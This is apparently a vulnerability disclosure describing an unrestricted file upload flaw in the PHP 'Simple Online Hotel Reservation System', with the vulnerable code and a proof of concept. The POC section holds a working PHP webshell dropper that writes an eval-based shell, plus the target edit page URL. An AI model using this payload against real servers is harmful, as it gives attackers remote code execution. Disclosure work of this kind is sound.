 # Simple Online Hotel Reservation System #

## supplier ##

https://code-projects.org/simple-online-hotel-reservation-system-in-php-with-source-code

## Vulnerability file ##

edit_query_room.php edit_room.php

## describe ##

The edit_query_room.php and edit_room.php files contain an unrestricted file upload vulnerability, allowing attackers to upload arbitrary files (such as webshells) to the server. Malicious attackers can exploit this vulnerability to gain remote code execution or further compromise the system.

### Code analysis ###

Line 8 in edit_query_room.php

```php
move_uploaded_file($_FILES['photo']['tmp_name'],"../photo/" . $_FILES['photo']['name']);
```
Line 91-110 in edit_room.php
```php
	$(document).ready(function(){
		$pic = $('<img id = "image" width = "100%" height = "100%"/>');
		$lbl = $('<center id = "lbl">[Photo]</center>');
		$("#photo").change(function(){
			$("#lbl").remove();
			var files = !!this.files ? this.files : [];
			if(!files.length || !window.FileReader){
				$("#image").remove();
				$lbl.appendTo("#preview");
			}
			if(/^image/.test(files[0].type)){
				var reader = new FileReader();
				reader.readAsDataURL(files[0]);
				reader.onloadend = function(){
					$pic.appendTo("#preview");
					$("#image").attr("src", this.result);
				}
			}
		});
	});
```

## POC ##
For the file upload vulnerability, you can upload a malicious PHP file (such as a webshell) using the product edit functionality. The application does not validate the file type or content, allowing arbitrary files to be uploaded to the server.

```php
<?php fputs(fopen("shell.php", "w"), '<?php @eval($_POST["shell"]); ?>'); ?>
```

```
http://127.0.0.1:8083/simplehotel/HOR/admin/edit_room.php?room_id=6
```

### Rusult ###
![image](https://github.com/asd1238525/cve/blob/main/1c67a9ce-79e6-406a-986a-32dfaae798c7.png)
For parameter "photo":
![image](https://github.com/asd1238525/cve/commit/87f8460153a7a7e91b3c80b9b2d9622291314e68)

